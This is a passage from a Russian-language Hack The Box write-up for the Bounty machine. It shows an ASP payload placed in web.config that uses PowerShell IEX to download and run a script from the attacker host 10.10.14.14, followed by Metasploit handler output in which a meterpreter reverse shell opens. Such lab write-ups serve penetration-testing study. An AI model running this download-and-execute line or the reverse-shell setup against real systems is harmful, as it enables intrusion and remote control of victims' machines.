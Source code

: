 ```xml
Set cmd = rs.Exec("cmd /c powershell -c IEX (New-Object Net.Webclient).downloadstring('http://10.10.14.14:8881/sh3ll.ps1')")
o = cmd.StdOut.Readall()
Response.write(o)
%>

<% Response.write("<!-"&"-") %>
-->
```

Поднимем Python-сервер на 8881 порту, подготовим хэндлер Metasploit'а, выполним код из web.config и получим коннект на meterpreter (далее листинги кода взяты из моих старых заметок, поэтому они содержат оригинальную дату моего захвата Bounty, ибо времени перепроходить машину специально для райтапа не было; сорри за возможные опечатки :weary:):
```text
root@kali:~# msfdb run
[+] Starting database

msf > use exploit/multi/handler
msf exploit(multi/handler) > show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.14      yes       The listen address (an interface may be specified)
   LPORT     31337            yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


msf exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.14:31337
[*] Sending stage (206403 bytes) to 10.10.10.93
[*] Meterpreter session 1 opened (10.10.14.14:31337 -> 10.10.10.93:49165) at 2018-08-29 09:28:53 -0400

meterpreter >
```
